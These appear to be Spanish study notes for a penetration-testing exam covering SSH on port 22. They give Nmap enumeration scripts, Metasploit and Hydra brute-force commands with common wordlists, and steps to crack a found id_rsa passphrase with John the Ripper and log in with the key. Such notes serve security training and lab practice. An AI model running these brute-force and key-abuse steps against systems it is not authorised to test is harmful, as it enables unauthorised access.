

# 🔍 Puerto 22 - SSH

**Uso de SSH para Conexiones Seguras y Administración Remota**

El protocolo **SSH (Secure Shell)** se emplea para establecer conexiones seguras con sistemas remotos, permitiendo tanto la administración de servidores como la transferencia segura de archivos.

#### 🔍 Reconocimiento del Puerto 22 con Nmap

Para identificar los scripts disponibles en **Nmap** para el reconocimiento del puerto 22, podemos utilizar el siguiente _oneliner_:

```bash
ls -lah /usr/share/nmap/scripts | grep "ssh-*" # Ver los scripts de nmap para el servicio ssh
```

<figure><figcaption></figcaption></figure>


A continuación, utilizaremos los scripts que mejor se adapten a nuestros objetivos. También existe la opción de ejecutar todos los scripts disponibles, aunque esto puede ralentizar significativamente el proceso de escaneo.

```bash
nmap -p22 <ip_victima> -sCV # Script por defecto de nmap para ver servicio y versión.
nmap -p22 <ip_victima> --script ssh2-enum-algos # Recuperar algoritmos soportados 
nmap -p22 <ip_victima> --script ssh-hostkey --script-args ssh_hostkey=full # Recuperar keys debiles 
nmap -p22 <ip_victima> --script ssh-auth-methods --script-args="ssh.user=root" # Revisar metodos de autenticarnos
```

**Realizar fuerza bruta al servicio SSH.**

> En entornos reales esto no suele surtir efecto ya que hay medidas para poder evitar este tipo de ataques, pero este examen está hecho para realizar este tipo de ataques (contra todo).

Para llevar a cabo un ataque de fuerza bruta contra el servicio **SSH**, utilizaremos dos herramientas distintas: **Metasploit** y **Hydra**.

**🔹 Fuerza Bruta al Servicio SSH con Metasploit**

```bash
msfconsole -q # Abrimos metasploit en modo silencioso.
use auxiliary/scanner/ssh/ssh_login # Cargar el módulo de fuerza bruta SSH.
set RHOSTS <ip_victima>
set USERNAME <username> # Para probar un solo usuario.
set USER_FILE <ruta_diccionario_usernames.txt> # Para múltiples usuarios.
set PASS_FILE <ruta_diccionario_contraseñas.txt> # Ruta del diccionario.
set VERBOSE true # Para ver como se acontece el ataque en tiempo real.
set STOP_ON_SUCESS true # Se detiene cuando finaliza.
set KEY_PATH /ruta/a/clave_privada # Intentar acceso con claves privadas SSH.
set THREADS 5 # Definir número de intentos simultáneos (para evitar bloqueos).
exploit # Iniciar el ataque de fuerza bruta.

[+] Success: 'admin:admin123 - Logged in! 
# Mensaje que nos saldría si encontramos unas credenciales válidas.

```

**🔹Diccionarios mas utilizados para este examen:**

```bash
/usr/share/wordlists/metasploit-framwork/common_passwords.txt
/usr/share/wordlists/metasploit-framwork/common_users.txt
/usr/share/wordlists/rockyou.txt

```

**🔹 Realizar fuerza bruta al servicio SSH con Hydra.**

```bash
hydra -l '<username>' -P <ruta_diccionario.txt> ssh://<ip_target> -t <cantidad_hilos> -F
# Con la flags -F le indicamos que detenga el ataque cuando encuentre una combinación válida.
```

Una vez que hayamos obtenido credenciales válidas utilizando alguna de las herramientas mencionadas, podremos acceder al servicio **SSH** con el siguiente comando:

```bash
ssh <username>@<ip> # Y proporcionamos el password
```

**🔹 id\_rsa**

#### 🔍 ¿Qué hacer si encontramos un archivo `id_rsa`?

Si durante una auditoría de seguridad encontramos un archivo `id_rsa` en algún servicio, como **FTP** o dentro de un directorio tras un análisis de fuzzing web, es posible que no sea necesario conocer la contraseña de un usuario específico. En su lugar, podríamos acceder al servicio utilizando dicha **clave privada**.

#### 🔹 Crackeo de Hash SSH con John The Ripper

```bash
ssh2john id_rsa > id_rsa.hash # Convertimos la clave privada a hash.
john --wordlist=<ruta_diccionario> id_rsa.hash # Le indicamos el diccionario y el hash.
john --show id_rsa.hash # Ver la contraseña crackeada (si lo hemos conseguido)
```

> Si la clave privada está protegida, John The Ripper mostrará la contraseña una vez la encuentre. Esta contraseña es necesaria para usar la clave privada al conectarse por SSH.

#### 🔹 Cómo conectarnos utilizando la clave `id_rsa`

Una vez que tengamos acceso al archivo `id_rsa`, debemos seguir estos pasos:

1. **Visualizar el contenido**: Usamos el comando `cat` para ver el contenido del archivo y lo copiamos.
2. **Crear el archivo en nuestra máquina atacante**: En nuestra máquina, creamos un archivo llamado `id_rsa` y pegamos el contenido copiado.
3. **Asignar los permisos correctos**: Para que la clave sea utilizada correctamente, establecemos los permisos adecuados con el siguiente comando:

```bash
chmod 600 id_rsa # La clave id_rsa necesita estos permisos para poder acceder a través de ella.
```

#### 🔹 Iniciar sesión con la clave `id_rsa`

Para autenticarnos en el servicio **SSH** utilizando la clave privada `id_rsa`, ejecutamos el siguiente comando:

```bash
	sudo ssh -i id_rsa <username>@$<ip_target> # Colocaremos el usuario y la ip que corresponda.
```

Si todo está configurado correctamente, obtendremos acceso al sistema sin necesidad de introducir una contraseña.
